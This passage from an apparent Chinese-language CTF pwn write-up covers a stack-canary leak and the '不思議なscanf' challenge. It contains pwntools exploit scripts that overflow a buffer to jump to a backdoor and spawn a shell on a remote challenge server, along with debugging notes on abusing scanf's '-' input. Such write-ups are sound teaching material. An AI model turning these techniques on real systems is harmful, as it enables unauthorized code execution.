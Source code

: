 ```python
            if i < 6 :
                p.sendline(b'1')
            else:
                p.sendline(b'cat flag')
            break
        else:
            p.sendline(b'1')
            p.recvuntil(b'(*^_^*)\n')
log.success(f'final_canary: {canary}')
# gdb.attach(p, 'b *0x4013B3')
payload = b'a' * (0x50 + 8) + canary + p64(0) + p64(backdoor)
p.recvuntil(b'\n')
p.sendline(payload)

p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013113914.png)
可以看到最终泄露出来的`canary`

### 不思議なscanf
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114131.png)
除了PIE和RELRO全开，打开ida查看
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114232.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114242.png)
有后门函数，主函数意为循环输入十五次，打开gdb调试查看
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114454.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114502.png)
输入一个很大的值后发现0x7fffffffdc10位置被修改为0xffffffff，再次输入可以发现同一位置被修改为
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114611.png)
同时根据scanf函数被调用时的参数
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114633.png)
可以发现scanf的参数为%d既只能输入int类型的数，否则则会错误并无法输入
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013114803.png)
多次输入后发现可以慢慢将栈空间覆盖，那么只需要将返回地址覆盖为backdoor的地址即可获取shell，但原程序中的printf函数没有格式化字符串漏洞，所以我们不能泄露栈上的数据，那么需要找到办法使scanf函数输入后不改变栈上的值。经过调试可以发现输入`-`时栈上的值不会被改变
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013115045.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013115052.png)
根据这个特性即可构造exp。
exp:
```python
from pwn import *
import pwnlib.gdb

context.log_level = 'debug'
local = False
if local:
    p = process('./scanf')
    pwnlib.gdb.attach(p, 'b main')
else:
    p = remote('8.147.132.32', 20300)

backdoor = 0x40123B # 4198971
binsh = 0x402056
system = 0x400527
system_binsh = 0x401261 # 4199009
  
```